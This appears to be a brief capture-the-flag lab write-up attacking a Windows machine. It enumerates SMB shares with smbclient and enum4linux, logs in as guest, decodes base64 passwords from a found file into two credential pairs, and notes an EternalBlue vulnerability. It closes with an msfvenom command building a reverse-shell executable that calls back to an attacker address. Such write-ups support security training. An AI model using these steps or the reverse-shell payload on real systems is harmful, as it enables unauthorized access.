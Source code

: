 using `smbclient -L` we were able to enum the share `nt4wrksv`
using `enum4linux` we were able to enum the user `guest`

we connect to the `nt4wrksv` share with the username `guest`
`smbclient //10.10.65.33/nt4wrksv -U guest`

Once connected, we find `passwords.txt`

---

passwords.txt:
````
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
````

---

Using cyberchef magic, we get two sets of credentials:

`Bob - !P@$$W0rD!123`
`Bill - Juw4nnaM4n420696969!$$$`

---

We got stuck here and ran nmap with vulnerability scripts. We see that this machine is vulnerable to eternal blue.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.0.209 LPORT=4444 -f exe > shell.exe
```

